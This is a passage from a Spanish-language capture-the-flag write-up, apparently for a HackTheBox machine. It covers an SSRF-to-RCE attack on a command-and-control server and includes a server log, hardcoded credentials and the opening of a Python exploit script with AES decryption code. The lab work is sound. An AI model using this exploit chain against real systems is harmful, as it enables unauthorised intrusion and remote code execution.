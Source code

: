 
Aunque el exploit se ejecutó correctamente, la solicitud realizada al servidor no reveló información adicional relevante. En lugar de una dirección IP interna, recibimos la respuesta HTTP estándar `404 File not found`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.49 - - [21/Jan/2025 09:43:01] code 404, message File not found
10.10.11.49 - - [21/Jan/2025 09:43:01] "GET /vulnerable HTTP/1.1" 404 -
```

### Creating a Python Script to exploit SSRF-RCE on the machine

Con la ayuda de ChatGPT, creamos el siguiente script en Python que aprovecha una vulnerabilidad de **SSRF** para lograr un **RCE**, adaptándose a las configuraciones observadas en el sistema objetivo. A continuación, se detalla su funcionamiento:

**Registro del Agente**

La función `register_agent` envía una solicitud cifrada con información del host comprometido, incluyendo nombre del usuario, IP interna y detalles del proceso. Esto registra al agente malicioso en el sistema.

**Comunicación mediante WebSocket**

Se establece un WebSocket autenticado utilizando las credenciales `ilya:CobaltStr1keSuckz!`. Posteriormente, se configura un listener para recibir conexiones del sistema objetivo.

**Construcción del Payload SSRF-RCE**

El payload malicioso utiliza la siguiente cadena para ejecutar comandos arbitrarios en el servidor

{% code title="SSRF-RCE.py" %}
```python
import os
import json
import hashlib
import binascii
import random
import requests
import argparse
import urllib3
urllib3.disable_warnings()

from Crypto.Cipher import AES
from Crypto.Util import Counter

USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext

```